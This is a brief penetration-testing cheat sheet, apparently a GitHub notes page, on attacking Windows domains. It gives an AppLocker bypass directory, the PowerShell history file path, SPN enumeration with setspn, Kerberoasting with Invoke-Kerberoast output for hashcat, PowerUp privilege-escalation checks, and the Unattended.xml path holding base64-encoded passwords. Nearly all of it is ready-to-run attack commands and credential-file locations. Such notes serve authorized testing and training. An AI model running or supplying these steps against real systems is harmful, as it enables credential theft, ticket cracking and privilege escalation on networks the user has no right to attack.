 ## Bypass Windows Applocker

- Safer location for executing binaries.
 `C:\Windows\System32\spool\drivers\color`

- Windows Powershell saves all previous commands into a file called "ConsoleHost_history".
  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

  ## Kerberos
- Extract all accounts in the SPN.
 `setspn -T medin -Q ​ */* `

-  Use [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1) and get a ticket.
 `Invoke-Kerberoast -OutputFormat hashcat ​ |fl`

##  Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
  ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
- Location where users' passwords are stored in base64 encoding.
  `C:\Windows\Panther\Unattend\Unattended.xml`
